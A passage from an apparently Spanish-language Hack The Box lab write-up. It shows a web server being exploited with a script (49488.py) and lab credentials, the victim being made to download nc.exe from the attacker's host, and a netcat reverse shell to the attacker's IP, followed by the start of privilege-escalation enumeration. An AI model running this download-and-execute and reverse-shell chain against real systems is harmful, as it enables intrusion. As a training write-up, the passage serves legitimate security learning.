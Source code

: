 Nos `copiamos` el `binario` al directorio actual de trabajo

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos `montamos` un `servidor http` en este directorio

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 9993
```

Nos `descargamos` el `netcat` en la máquina víctima

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c curl.exe -a '-o C:/Windows/Temp/nc.exe http://10.10.16.35/nc.exe'
```

Nos `mandamos` una `shell` a nuestro equipo

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c C:/Windows/Temp/nc.exe -a '-e cmd 10.10.16.35 9993'
```

`Recibimos` la `shell`

```
# nc -nlvp 9993  
listening on [any] 9993 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.230.172] 49881
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

## Privilege Escalation (First Method)

`Listamos privilegios` y `grupos` de nuestro usuario y vemos que el privilegio `SeImpersonatePrivilege` está habilitado

```
c:\Windows\Temp\Privesc>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
```